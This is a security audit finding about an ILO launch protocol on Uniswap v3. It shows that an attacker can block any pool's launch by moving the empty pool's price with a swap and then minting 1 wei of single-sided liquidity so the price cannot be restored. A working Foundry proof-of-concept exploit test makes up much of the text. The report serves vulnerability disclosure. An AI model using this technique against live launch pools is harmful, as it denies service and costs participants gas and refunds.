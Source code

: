 ## [H] Adversary can prevent the launch of any ILO pool with enough raised capital at any moment by providing single-sided liquidity

<relative_path_091409:src/ILOPool.sol#L296>

### Impact

It is possible to prevent the launch of any ILO pool at any time, including pools that have reached their total raised amount. This can be done at any time and the cost for the attacker is negligible.

Not only this is a DOS of the whole protocol, but the attack can be performed at the very end of the sale, making users lose a lot on gas fees, considering it will be deployed on Ethereum Mainnet. Hundreds or thousands of users will participate in ILO pools via `buy()`, and will have to later call `claimRefund()` to get their "raise" tokens back.

Token launches that were deemed to be successful will be blocked after raising funds from many users, and this will most certainly affect the perception of the token, and its pricing on any attempt of a future launch/sale.

### Vulnerability Details

The `ILOManager` contract has a check to assert that the price at the time of the token launch is the same as the one initialized by the project. If they differ the transaction will revert, and the token launch will fail:

```solidity
function launch(address uniV3PoolAddress) external override {
    require(block.timestamp > _cachedProject[uniV3PoolAddress].launchTime, "LT");
    (uint160 sqrtPriceX96, , , , , , ) = IUniswapV3Pool(uniV3PoolAddress).slot0();
@>  require(_cachedProject[uniV3PoolAddress].initialPoolPriceX96 == sqrtPriceX96, "UV3P");
    address[] memory initializedPools = _initializedILOPools[uniV3PoolAddress];
    require(initializedPools.length > 0, "NP");
    for (uint256 i = 0; i < initializedPools.length; i++) {
        IILOPool(initializedPools[i]).launch();
    }

    emit ProjectLaunch(uniV3PoolAddress);
}
```

<relative_path_091409:src/ILOManager.sol#L190>

The problem is that `sqrtPriceX96` can be easily manipulated in Uniswap v3 Pools when there is no liquidity in it via a swap with no cost. In theory, this could be mitigated by anyone by swapping back to get back to the original price. But there is an additional problem which makes the severity of the attack even higher. The attacker can add [single-sided liquidity](https://support.uniswap.org/hc/en-us/articles/20902968738317-What-is-single-sided-liquidity#:\~:text=When%20you%20select%20a%20range%20that%20is%20outside%20the%20current%20price%20range%2C%20you%20will%20only%20be%20able%20to%20supply%20one%20of%20the%20two%20tokens.) to the pool (just the Raise Token) after the price was manipulated.

> When you select a range that is outside the current price range, you will only be able to supply one of the two tokens.

By adding liquidity in ticks greater than the manipulated price, but lower than the expected initial price, it would require the swapper to provide some `SALE_TOKEN`, which should not be available at this moment, since they should all be in the ILO pool.

Even if the project admin has some `SALE_TOKEN`, the attacker can mint a higher amount of liquidity by providing more single-sided `RAISE_TOKEN` liquidity, making the needed amount of `SALE_TOKEN` even higher.

### Proof of Concept

The following Proof of Concept shows how an attacker can make a launch revert after raising capital, at the cost of providing liquidity with only `1 wei` of USDC (Raise Token).

Console Output:

    <<Minting Attack>>
    <<Failed mitigation attempt>>

    uniswapV3SwapCallback()
      amount0 (USDC)       0
      amount1 (SALE_TOKEN) 1

This would be enough to perform an attack that can't be reverted in most cases since no other sale tokens should be circulating before the launch. But for the sake of interest, the minted liquidity and the mitigation amount can be increased to check the values needed to get back to the initial price in different situations.

POC:

1. Add the import to the top of `test/ILOManager.t.sol`.
2. Add the test to the `ILOManagerTest` contract in `test/ILOManager.t.sol`.
3. Run `forge test --mt testManipulatePriceForLaunch -vv`.

```solidity
import "../lib/v3-core/contracts/interfaces/IUniswapV3Pool.sol";
import "forge-std/console.sol";
```

```solidity
function testManipulatePriceForLaunch() external {
    IILOManager.InitPoolParams memory params = _getInitPoolParams();
    _initPool(PROJECT_OWNER, params);

    assertEq(IUniswapV3Pool(projectId).token0(), USDC);
    assertEq(IUniswapV3Pool(projectId).token1(), SALE_TOKEN);

    vm.label(USDC, "USDC");
    vm.label(SALE_TOKEN, "SALE_TOKEN");
    vm.label(projectId, "UNI_V3_POOL");
    vm.label(address(this), "ATTACKER");

    unsuccessfulPriceManipulation();

    priceManipulationAttack();

    vm.warp(LAUNCH_START+1);
    vm.expectRevert(bytes("UV3P"));
    iloManager.launch(projectId);
}

function unsuccessfulPriceManipulation() internal {
    uint160 initialPrice = mockProject().initialPoolPriceX96;
    uint160 MIN_SQRT_RATIO = 4295128739 + 1;

    // Check price before attack
    (uint160 sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), initialPrice);

    // Attack
    IUniswapV3Pool(projectId).swap(address(this), true, 1, MIN_SQRT_RATIO, "");
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), MIN_SQRT_RATIO);

    // Mitigation
    IUniswapV3Pool(projectId).swap(address(this), false, 1, initialPrice, "");
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), initialPrice);
}

function priceManipulationAttack() internal {
    uint160 initialPrice = mockProject().initialPoolPriceX96;
    uint160 MIN_SQRT_RATIO = 4295128739 + 1;

    // Check price before attack
    (uint160 sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), initialPrice);

    // Attack -> Swap to manipulate price
    IUniswapV3Pool(projectId).swap(address(this), true, 1, MIN_SQRT_RATIO, "");
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), MIN_SQRT_RATIO);

    // Attack -> Mint to prevent swapping back
    console.log("\n<<Minting Attack>>");
    deal(USDC, address(this), 1);
    int24 OUTSIDE_TICK = 0;
    IUniswapV3Pool(projectId).mint(address(this), OUTSIDE_TICK-10, OUTSIDE_TICK+10, 1, "");

    // Mitigation doesn't work now
    // You can uncomment the `expectRevert` and run the test with `-vvvv`
    // You'll see the log `ATTACKER::uniswapV3SwapCallback(0, 1, 0x)`, which means that it expects 1 wei of SALE_TOKEN
    // This is not possible as all SALE_TOKENs should be in the ILOPool at this moment
    console.log("\n<<Failed mitigation attempt>>");
    vm.expectRevert(bytes("IIA"));
    IUniswapV3Pool(projectId).swap(address(this), false, 1, initialPrice, "");

    // The price will remain the one set by the attacker
    (sqrtPriceX96, , , , , , ) = IUniswapV3Pool(projectId).slot0();
    assertEq(uint256(sqrtPriceX96), MIN_SQRT_RATIO);
}

function uniswapV3MintCallback(uint256, uint256, bytes memory) external {
    IERC20(USDC).transfer(projectId, IERC20(USDC).balanceOf(address(this)));
}

function uniswapV3SwapCallback(int256 amount0, int256 amount1, bytes memory) external {
    assertGe(amount0, 0);
    assertGe(amount1, 0);

    console.log("\nuniswapV3SwapCallback()");
    console.log("amount0 (USDC)      ", uint256(amount0));
    console.log("amount1 (SALE_TOKEN)", uint256(amount1));
}
```






